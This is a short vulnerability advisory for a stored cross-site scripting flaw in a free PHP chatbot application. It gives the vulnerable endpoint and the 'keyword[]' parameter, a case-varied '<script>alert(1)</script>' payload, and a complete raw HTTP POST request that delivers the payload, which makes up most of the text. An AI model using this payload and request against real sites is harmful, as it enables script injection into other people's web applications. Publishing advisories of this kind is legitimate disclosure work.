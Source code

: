 # chatbot-app-suggestion-phpoop v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /simple_chat_bot/classes/Master.php?f=save_response

Vulnerability location: /simple_chat_bot/classes/Master.php?f=save_response, keyword[]

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /simple_chat_bot/classes/Master.php?f=save_response HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------268132382818445192602306506330
Content-Length: 1479
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/simple_chat_bot/admin/?page=responses/manage_response&id=7
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="id"

7
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="response"

<p>On this simple ChatBot Application, You can query anything and the system will automatically browse a response that is stored on this site.ï¿½</p><p>The queries fetch a response that has an equivalent keyword.</p><p>Also, the application consists of suggestion keywords to query.</p>
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="status"

1
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="keyword[]"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hi
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hello
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hello There
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"


-----------------------------268132382818445192602306506330--


```

![](https://github.com/mikeccltt/chatbot/blob/main/chatbot-app-suggestion-phpoop/xss.gif?raw=true)
